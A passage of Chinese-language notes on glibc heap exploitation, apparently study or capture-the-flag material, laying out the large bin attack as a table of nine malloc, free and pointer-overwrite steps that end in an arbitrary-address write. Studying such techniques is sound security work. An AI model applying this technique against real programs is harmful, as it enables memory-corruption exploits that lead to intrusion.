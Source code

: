 ‍

- overlapping

![image](assets/image-20231222195728-gcmb426.png)

‍

## large_bin_attack

‍

首先列出所有的操作过程：

|序号|操作|目的|
| ----| ------------------------------| ---------------------------------------------------|
|1|p1 = malloc(0x428)|堆风水|
|2|g1 = malloc(0x18)|隔断防止合并|
|3|p2 = malloc(0x418)|堆风水|
|4|g2 = malloc(0x18)|隔断防止合并|
|5|free(p1)|将p1指向的堆块放到unsortedbin中|
|6|g3 = malloc(0x438)|进行堆块申请操作，将p1指向的堆块放入largebin中|
|7|free(p2)|将p2指向的堆块放到unsortedbin中|
|8|p1[3] = (size_t)((&target)-4);|p1堆块的bk_nextsize改成任意地址写-0x20处|
|9|g4 = malloc(0x438)|申请堆块，触发unsortedbin链入largebin的代码完成攻击|
